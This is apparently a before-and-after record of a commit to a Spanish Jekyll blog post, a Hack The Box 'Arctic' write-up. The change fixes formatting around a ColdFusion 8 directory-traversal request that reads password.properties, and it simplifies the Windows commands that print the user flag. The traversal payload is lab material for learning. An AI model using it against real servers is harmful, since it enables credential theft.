

Before and after one commit to Firtsmiracle/firtsmiracle.github.io, a Jekyll site: the page built from _posts/2023-04-11-htb-writeup-Arctic.md, in a window 1280 px wide and 1400 px high, scrolled down 14951 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
solucion error

````diff
--- a/_posts/2023-04-11-htb-writeup-Arctic.md
+++ b/_posts/2023-04-11-htb-writeup-Arctic.md
@@ -240,8 +240,7 @@ if __name__ == '__main__':
     main()
 ```
 
-Podemos ver que esta realizando una petición a `http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
-` para extraer un archivo local.
+Podemos ver que esta realizando una petición a `http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en` para extraer un archivo local.
 
 
 Hagamos eso entonces y en el navegador agreguemos esa petición.
@@ -358,31 +357,20 @@ whoami
 whoami
 arctic\tolis
 ```
-Si ahora nos vamos a la raiz del sistema y buscamos la primera flag de forma recursiva, vemos que se encuentra en el direcotrio personal del usuario, la leemos y habriamos obtenido la primera flag `user.txt`
 
+Si ahora nos vamos al directorio personal del usuario `tolis`, podemos leer la primera flag `user.txt`
 
 ```cmd
-cd C:\
-cd C:\
+cd C:\Users\tolis\Desktop
+cd C:\Users\tolis\Desktop
 
-dir /r /s user.txt
-dir /r /s user.txt
- Volume in drive C has no label.
- Volume Serial Number is 5C03-76A8
+type user.txt
+type user.txt
+b2d38d2f34b46b4189d147c805813fa4
 
- Directory of C:\Users\tolis\Desktop
+C:\Users\tolis\Desktop>
+```
 
-13/04/2023  02:35                 34 user.txt
-               1 File(s)             34 bytes
-
-     Total Files Listed:
-               1 File(s)             34 bytes
-               0 Dir(s)   1.434.173.440 bytes free
-
-type C:\Users\tolis\Desktop\user.txt
-type C:\Users\tolis\Desktop\user.txt
-b2d38d2f34b46b4189d147c805813fa4
-```
 ## Escalada de Privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}
 
 
````
Also changed, not shown: other parts of _posts/2023-04-11-htb-writeup-Arctic.md (+1 -1 lines), 7 other files.
